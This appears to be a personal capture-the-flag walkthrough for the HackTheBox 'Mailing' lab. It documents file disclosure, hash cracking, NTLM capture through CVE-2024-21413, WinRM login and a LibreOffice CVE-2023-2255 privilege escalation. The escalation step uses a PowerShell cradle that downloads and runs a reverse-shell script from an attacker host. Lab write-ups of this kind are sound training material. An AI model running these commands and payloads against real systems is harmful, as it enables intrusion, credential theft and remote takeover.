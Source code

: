 2024
### NMAP

```
sudo nmap -sC -vv -sV -oN nmap-mailing 10.10.11.14
```
### Enumerate for Initial Access

Discovering File Disclosure in the download script on the web app using Burp

#### File Disclosure 

Requesting file that doesn't exist and getting "File not found"
![[HackTheBox/Windows/attachments/Pasted image 20250524211801.png]]

Now going up one directory and discovery a script (the file disclosure vuln)

![[HackTheBox/Windows/attachments/Pasted image 20250524211914.png]]

Try to read the `windows/system32/license.rft` file bc this file always exists 
![[HackTheBox/Windows/attachments/Pasted image 20250524212100.png]]

#### try to read hmail server config file

This file is located in `Program Files (x86)\hMailServer\Bin\hMailServer`

![[HackTheBox/Windows/attachments/Pasted image 20250524212438.png]]
- can see "AdministratorPassword" and MSSQL password

#### Crack these MD5 hashes

Can use [crackstation](https://crackstation.net/)

The administrator password did crack to be `homenetworkingadministrator`

These creds do work with SMTP, but cannot phish our way in here. 

```
swaks -server mailing.htb --auth LOGIN --auth-user administrator@mailing.htb --auth-password homenetworkingadministrator --quit-after AUTH
```

Look for additional windows mail exploits..
### Initial Access

#### Moniker Link (CVE-2024-21413) vulnerability

[GitHub PoC and Exploit ](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability)

Download this PoC 
```
git clone https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability
```

Exploit with arguments
```
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.8\test\meeting" --subject test
```

![[HackTheBox/Windows/attachments/Pasted image 20250524214058.png]]

#### Set Up Responder to Catch NTLM Hash
Set this up before executing the exploit code
```
sudo responder -I tun0
```

We got maya's NTLMv2 hash
![[HackTheBox/Windows/attachments/Pasted image 20250524214146.png]]

Copy and paste this hash into a file to crack using john wordlist. 

The hash cracked to be `m4y4ngs4ri`

Try to read her shares.

#### Use nxc to discover an Important Docs share 

```
nxc smb 10.10.11.14 -u maya -p m4y4ngs4ri --shares
```
![[HackTheBox/Windows/attachments/Pasted image 20250524214625.png]]

Read this share with smb client 
#### SMBClient 
Use SMBClient to read shares 
```
smbclient -U maya //10.10.11.14/Important\ Documents
```
- there were no files

#### WINRM
Try nxc with winrm and we get pwn3d!
```
nxc winrm 10.10.11.14 -u maya -p m4y4ngs4ri
```

#### EVIL-WINRM to Login

```
evil-winrm -i 10.10.11.14 -u maya -p m4y4ngs4ri
```
### Enumerate for Priv Esc 

Trying to read hidden files using 

```
gci -force
```

![[HackTheBox/Windows/attachments/Pasted image 20250524215805.png]]

Checking to see which programs are installed..

![[HackTheBox/Windows/attachments/Pasted image 20250524220031.png]]

Notice LibreOffice is Installed.

Search for LibreOffice version in this directory `version.ini`

![[HackTheBox/Windows/attachments/Pasted image 20250524220202.png]]
- version is 7.4.0.1

Search google for openoffice 7.4.0.1 exploit and find [CVE-2023-2255](https://github.com/elweth-sec/CVE-2023-2255)
### Priv Esc

#### CVE-2023-2255

Clone this repo 
```
git clone https://github.com/elweth-sec/CVE-2023-2255.git
```


#### Encoded PowerShell Cradle

Create this encoded cradle to insert into exploit code to get a reverse shell

Save as 'cradle'
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/shell.ps1')
```

Encode this cradle
```bash
cat cradle | iconv -t utf-16le| base64 -w 0
```

![[HackTheBox/Windows/attachments/Pasted image 20250524221043.png]]

Now create the "shell.ps1" for this cradle to grab using Nishang's 
`Invoke-PowerShellTcpOneLine.ps1`
![[HackTheBox/Windows/attachments/Pasted image 20250524221243.png]]

Add kali ip and port
![[HackTheBox/Windows/attachments/Pasted image 20250524221349.png]]

Set up python server to serve up shell.ps1

Set up nc listener

Copy and paste this encoded cradle into exploit 
```
python3 CVE-2023-2255.py --cmd 'cmd /c powershell -enc '<ENCODED CRADLE>' --output exploit.odt
```
![[HackTheBox/Windows/attachments/Pasted image 20250524221837.png]]
#### Get reverse shell 

Return to evil-winrm shell and curl the exploit.odt file

![[HackTheBox/Windows/attachments/Pasted image 20250524221713.png]]

Catch rev shell
![[HackTheBox/Windows/attachments/Pasted image 20250524221758.png]]

⭐got root⭐
